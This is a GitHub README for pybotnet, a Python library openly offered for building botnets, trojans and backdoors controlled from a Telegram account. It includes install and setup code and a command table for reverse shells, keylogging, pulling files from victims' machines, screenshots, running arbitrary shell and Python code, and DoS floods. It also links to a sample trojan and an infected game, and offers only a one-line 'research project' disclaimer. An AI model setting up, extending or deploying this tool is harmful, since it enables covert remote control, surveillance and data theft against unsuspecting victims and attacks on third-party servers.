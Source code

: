  
 <p align="center">
  <a href='https://github.com/onionj/pybotnet' target='_blank'><img src='https://files.virgool.io/upload/users/271869/posts/wxs2bk9hkqfx/ezoxwssoikqm.jpeg' border='5' alt='trojan horse'/></a>  <h1 align="center">pybotnet</h1>
  <p align="center"> A Python Library for building <b>botnet</b> , <b>trojan</b>  or <b>backdoor</b> for windows and linux with Telegram control panel </p>

  <p align="center">
    <a href="https://github.com/onionj/pybotnet">
      <img src="https://img.shields.io/pypi/v/pybotnet?label=pybotnet" />
    </a>
    <a href="https://github.com/onionj/pybotnet/blob/master/LICENSE">
      <img src="https://img.shields.io/github/license/onionj/pybotnet" />
    </a>
    <a href="https://www.python.org/">
    	<img src="https://img.shields.io/pypi/pyversions/pybotnet" />
    </a>
  </p>
</p>
 
> Disclaimer: Please note that this is a research project. I am by no means responsible for any usage of this tool. Use it on your behalf. 


> [Persian document](https://vrgl.ir/G2i6b)  داکیومنت فارسی


### Features:
* Telegram anti-filter control panel
* reverse shell
* keylogger
* extract target info 
* sleep source by Optional message
* export file/s to target's system
* import file/s from target's system 
* screenshot
* Task Scheduler
* Website Opener
* Sound Player
* Denial-Of-Service Attacker
* Python Code runner

for more, see commands table at the end of this page 



#### Requirements:

* Python 3.6 or higher
* Telegram account

### Usage:
```
pip install pybotnet
```

```python

from pybotnet import pybotnet
import time

# change TELEGRAM_TOKEN and  ADMIN_CHAT_ID to valid data:

# telegram api token (Get it from the telegram @botfather)
TELEGRAM_TOKEN = '1468299547:ABHs_________MzZcYxF_e00000000000'

# telegram account number ID (get it from @userinfobot)
ADMIN_CHAT_ID = '12345678910'



# * show_log:          just for debugging
# * send_system_data:  send system short info in every bot messages in telegram

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID,
                        show_log=True, send_system_data=True)

delay = 10

while True:
    print('*-*'*15)
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:

> Send the desired command to your bot in telegram, using the admin account registered in the trojan.

>  to run a command on only one target, use :  `<Target_MAC_Address> <command>` ,Example:  `66619484755211 get_info` 


COMMAND | Sample | DOES THIS | version | tested on |
--------|--------|---------|--------------------------|-----------|
`get_info` | `get_info` | returns system info | 0.06 | windows, linux |
`do_sleep <scconds> <message (Optional)>` | `do_sleep 99999 hi, i see you!` | Sleeps with printing a message. | 0.08 | windows, linux |
`cmd <system command>` | `cmd mkdir new_folder` `cmd cd ..`, `cmd ls` | runs system commands in shell or cmd | 0.07 | windows, linux|
`export_file <link>` | `export_file https://github.com/onionj/pybotnet/archive/refs/heads/master.zip` | file will be exported on the target machine and saved to the script path | 0.14 | windows, linux|
`import_file <file_route>` |`import_file /home/onionj/folder/somting.png` | imports a file from target system (limit:5GB & 20min)| 0.17.0 |  windows, linux|
`screenshot` | `screenshot` | Takes a screenshot, uploads it to the online server and returns the download link | 0.18.1 |  windows, linux |
`help` | `help` | sends help menu | 0.18.5 | windows, linux |
`/start` | `/start` | runs `help` command !! | 0.18.7 | windows, linux |
`<MAC_Address> reverse_shell` or `reverse_shell`| `66619484755211 reverse_shell` and `exit` for exit!| starst reverse shell on the target machine | 0.20.1 | windows, linux |
`keylogger` | `keylogger start` and `keylogger stop` to stop the keylogger | Starts a keylogger on victim's system. *keylogger can't handle persian words very correctly* | 0.21.1 | windows, linux 
`scheduler` | `scheduler start ,stop , list` | Adds a schedule to be run each n second | 0.25.3 | windows, linux
`playsound` | `playsound <sound-name>` | Will play a sound. Playsound can only play MP3 or WAV Files. | 0.25.3 | windows, linux
`openurl` | `openurl <url> <how-many-times>` | Will open a url n times. | 0.25.3 | windows, linux
`dos` | `dos <attack-type [GETFlood-ACKFlood]> <target-ip> <target-port> <thread-number> <payload-size>` | Will run Denial-Of-Service Attack. | 1.0.0 | windows
`runcode` | `runcode <code>` | Will run python code, The code should be written in a seperate line with correct python syntax, Because of python limitations , The function can't return the results. | 1.0.0 | windows, Linux
> If you like this repo and find it useful, please consider ★ starring it (on top right of the page) and forking it :)

> [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD)

> Sample GUI Trojan created by pybotnet: [VINET](https://github.com/onionj/vinet)

> Infected Game With Python: [GameInfectedWithPyBotNet](https://github.com/SepehrRasouli/GameInfectedWithPyBotNet)


## Contributors ✨
Thanks goes to these wonderful people :

<table>
<td align="center"><a href="https://github.com/onionj"><img src="https://avatars.githubusercontent.com/u/77416478?v=4" width="70px;" alt=""/><br /><sub><b>oNion</b></sub></a><br /></td>
<td align="center"><a href="https://github.com/TorhamDev"><img src="https://avatars.githubusercontent.com/u/87639984?v=4" width="70px;" alt=""/><br /><sub><b> TorhamDev</b></sub></a><br /></td>
<td align="center"><a href="https://github.com/SepehrRasouli"><img src="https://avatars.githubusercontent.com/u/81516241?v=4" width="70px;" alt=""/><br /><sub><b> SepehrRasouli</b></sub></a><br /></td>
</table>

